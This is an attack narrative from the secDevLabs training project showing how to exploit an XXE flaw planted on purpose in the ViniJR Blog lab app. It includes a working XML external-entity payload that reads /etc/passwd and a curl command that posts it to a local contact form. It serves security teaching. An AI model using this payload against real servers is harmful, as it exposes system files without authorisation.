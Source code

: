# Attack Narrative - ViniJR Blog (XXE)

The main goal of this documentation is to describe how a malicious user could exploit a XXE vulnerability intentionally intalled on ViniJR Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a4/vinijr-blog) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users send messages to the server, as shown in the following picture:

<img src="attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being build using an XML: 

<img src="attack-2.png" align="center"/>

By checking the source code of the [file](../app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="attack-3.png" align="center"/>

## 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.txt` to perform a XXE: 

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sentivie information is retreived from the server that is hosting the vulnerable app: 

```sh
curl -d @evilxml.xt localhost:10080/contact.php ; echo
```

<img src="attack-4.png" align="center"/>
